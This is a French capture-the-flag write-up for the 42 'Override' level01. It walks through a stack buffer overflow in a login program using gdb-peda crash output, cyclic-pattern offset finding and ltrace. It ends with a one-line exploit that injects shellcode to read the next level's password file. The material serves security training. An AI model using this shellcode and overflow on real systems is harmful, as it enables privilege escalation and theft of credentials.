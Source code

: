# Level 01

- En testant des entrée trop longue on voit que la deuxieme entrée peut etre overflow
<pre>
$> gdb ./level01 
gdb-peda$ r < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'B' * 500)")
Starting program: /home/alarm/42/Override/level01/Ressources/level01 < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'B' * 500)")
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
ESP: 0xffffd5b0 ('B' <repeats 15 times>)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ 
</pre>
- On calcule donc le offset pour ecrire sur la Return Address
<pre>
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')")
Starting program: /home/alarm/42/Override/level01/Ressources/level01 < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')")
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
ESP: 0xffffd5a0 ("AAKAAgAA6AAL\n")
EIP: 0x35414166 ('fAA5')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x35414166
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x35414166 in ?? ()
gdb-peda$ pattern offset fAA5
fAA5 found at offset: 75
</pre>
- On recupere l'adress de la stack ou sera stocker le shellcode
<pre>
$> (echo dat\_wil; echo admin) | ltrace ./level01 1>&-
\_\_libc\_start\_main(0x80484d0, 1, -10540, 0x80485c0, 0x8048630 <unfinished ...>
puts("\*\*\*\*\*\*\*\*\* ADMIN LOGIN PROMPT \*\*\*"...)                            = 39
printf("Enter Username: ")                                             = 16
<strong>fgets("dat\_wil\n", 256, 0xf7fcfac0)                                    = 0x0804a040</strong>
puts("verifying username....\n")                                       = 24
puts("Enter Password: ")                                               = 17
fgets("admin\n", 100, 0xf7fcfac0)                                      = 0xffffd5ec
puts("nope, incorrect password...\n")                                  = 29
+++ exited (status 1) +++
</pre>
- Il suffit maintenant de lancer la commande
```
$> (python -c "print('dat_wil0' + 'jsh.pashl02/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80')"; python -c "print('admin' + 'B' * 75 + '\x48\xa0\x04\x08')") | ./level01
```

